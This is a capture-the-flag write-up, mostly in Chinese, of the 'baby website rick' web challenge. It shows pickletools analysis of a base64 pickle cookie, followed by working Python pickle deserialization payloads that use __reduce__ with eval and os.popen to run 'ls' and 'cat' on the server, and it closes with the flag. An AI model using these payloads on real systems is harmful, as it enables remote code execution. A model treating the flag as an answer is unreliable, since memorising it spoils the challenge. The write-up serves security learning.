





# baby website rick

:::note CHALLENGE DESCRIPTION

Difficulty: EASY

Look Morty, look! I turned myself into a website Morty, I'm Website Rick babyyy!! But don't play around with some of them anti pickle serum I have stored somewhere safe, if I turn back to a human I'll have to go to family therapy and we don't want that Morty.

看啊莫蒂，快看！我把自己变成网站了莫蒂，我是网站瑞克宝宝版！！不过别乱动我藏在某处安全位置的那些反泡菜血清，要是我变回人类就得参加家庭心理治疗，我们可不想那样莫蒂。

:::

直接访问服务


```plaintext
Don't play around with this serum morty!! <__main__.anti_pickle_serum object at 0x7f8b5b7ef7d0>
```

这个 `__main__.anti_pickle_serum` 一看就是 python 的对象

经过排查，发现 Cookie 存在问题



```plaintext
KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu
```

对这个 `plan_b` 进行分析，得到

```python
>>> import base64
>>> a1=base64.b64decode("KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu")
>>> a1
b"(dp0\nS'serum'\np1\nccopy_reg\n_reconstructor\np2\n(c__main__\nanti_pickle_serum\np3\nc__builtin__\nobject\np4\nNtp5\nRp6\ns."
```

上 `pickletools` 进行分析

```python
import base64
import pickle
import pickletools

data = "KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu"
data = base64.b64decode(data)

print(data)

# 反汇编 pickle 字节码
pickletools.dis(data)
```

得到

```plaintext
b"(dp0\nS'serum'\np1\nccopy_reg\n_reconstructor\np2\n(c__main__\nanti_pickle_serum\np3\nc__builtin__\nobject\np4\nNtp5\nRp6\ns."
    0: (    MARK
    1: d        DICT       (MARK at 0)
    2: p    PUT        0
    5: S    STRING     'serum'
   14: p    PUT        1
   17: c    GLOBAL     'copy_reg _reconstructor'
   42: p    PUT        2
   45: (    MARK
   46: c        GLOBAL     '__main__ anti_pickle_serum'
   74: p        PUT        3
   77: c        GLOBAL     '__builtin__ object'
   97: p        PUT        4
  100: N        NONE
  101: t        TUPLE      (MARK at 45)
  102: p    PUT        5
  105: R    REDUCE
  106: p    PUT        6
  109: s    SETITEM
  110: .    STOP
highest protocol among opcodes = 0
```

尝试执行，会发现存在报错

```python
import base64
import pickle

data = "KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu"
data = base64.b64decode(data)

a = pickle.loads(data)

# Traceback (most recent call last):
#   File "d:\_Code\test\test-9.py", line 7, in <module>
#     a = pickle.loads(data)
#         ^^^^^^^^^^^^^^^^^^
# AttributeError: Can't get attribute'anti_pickle_serum'on <module'__main__'from'd:\\_Code\\test\\test-9.py'>
```

根据报错信息，添加一个 `anti_pickle_serum` 变量

```python
import base64
import pickle

anti_pickle_serum = ""

data = "KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu"
data = base64.b64decode(data)

a = pickle.loads(data)

# Traceback (most recent call last):
#   File "d:\_Code\test\test-9.py", line 9, in <module>
#     a = pickle.loads(data)
#         ^^^^^^^^^^^^^^^^^^
#   File "C:\Users\Randark\AppData\Local\Programs\Python\Python311\Lib\copyreg.py", line 49, in _reconstructor
#     obj = object.__new__(cls)
#           ^^^^^^^^^^^^^^^^^^^
# TypeError: object.__new__(X): X is not a type object (str)
```

根据报错信息，可以确定 `anti_pickle_serum` 应该是一个类

```python
import base64
import pickle


class anti_pickle_serum:
    def __init__(self):
        pass


data = "KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu"
data = base64.b64decode(data)

a = pickle.loads(data)

print(dir(a))

print(a)

# ['__class__', '__class_getitem__', '__contains__', '__delattr__', '__delitem__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__ior__', '__iter__', '__le__', '__len__', '__lt__', '__ne__', '__new__', '__or__', '__reduce__', '__reduce_ex__', '__repr__', '__reversed__', '__ror__', '__setattr__', '__setitem__', '__sizeof__', '__str__', '__subclasshook__', 'clear', 'copy', 'fromkeys', 'get', 'items', 'keys', 'pop', 'popitem', 'setdefault', 'update', 'values']
# {'serum': <__main__.anti_pickle_serum object at 0x000001E388AAF7D0>}
```

这一次运行就没有问题了，可以十分确定是 pickle 反序列化实现 RCE 了，并且这个序列化对象为一个 dict

尝试 pickle 工作流程

```python
from base64 import b64encode
import pickle

data = b64encode(pickle.dumps({"serum": "randark"}, protocol=0))

print(data)


# KGRwMApWc2VydW0KcDEKVnJhbmRhcmsKcDIKcy4=
```

成功显示了文本



进一步测试，尝试命令执行

```python
from base64 import b64encode
import pickle


class anti_pickle_serum:
    def __reduce__(self):
        return (eval, ("7+7",))


payload = b64encode(pickle.dumps({"serum": anti_pickle_serum()}, protocol=0))

print(payload)

# KGRwMApWc2VydW0KcDEKY19fYnVpbHRpbl9fCmV2YWwKcDIKKFY3KzcKcDMKdHA0ClJwNQpzLg==
```



那么就可以尝试命令执行了

```python
from base64 import b64encode
import pickle


class anti_pickle_serum:
    def __init__(self):
        self.command = "ls"

    def __reduce__(self):
        return (eval, (f'__import__("os").popen("{self.command}").read()',))


payload = b64encode(pickle.dumps({"serum": anti_pickle_serum()}, protocol=0))

print(payload)

# KGRwMApWc2VydW0KcDEKY19fYnVpbHRpbl9fCmV2YWwKcDIKKFZfX2ltcG9ydF9fKCJvcyIpLnBvcGVuKCJscyIpLnJlYWQoKQpwMwp0cDQKUnA1CnMu
```

得到



已经看到 flag 文件了，可以直接读取到 flag 数据了

```python
from base64 import b64encode
import pickle


class anti_pickle_serum:
    def __init__(self):
        self.command = "cat flag_wIp1b"

    def __reduce__(self):
        return (eval, (f'__import__("os").popen("{self.command}").read()',))


payload = b64encode(pickle.dumps({"serum": anti_pickle_serum()}, protocol=0))

print(payload)

# KGRwMApWc2VydW0KcDEKY19fYnVpbHRpbl9fCmV2YWwKcDIKKFZfX2ltcG9ydF9fKCJvcyIpLnBvcGVuKCJjYXQgZmxhZ193SXAxYiIpLnJlYWQoKQpwMwp0cDQKUnA1CnMu
```



```flag
HTB{g00d_j0b_m0rty...n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}
```
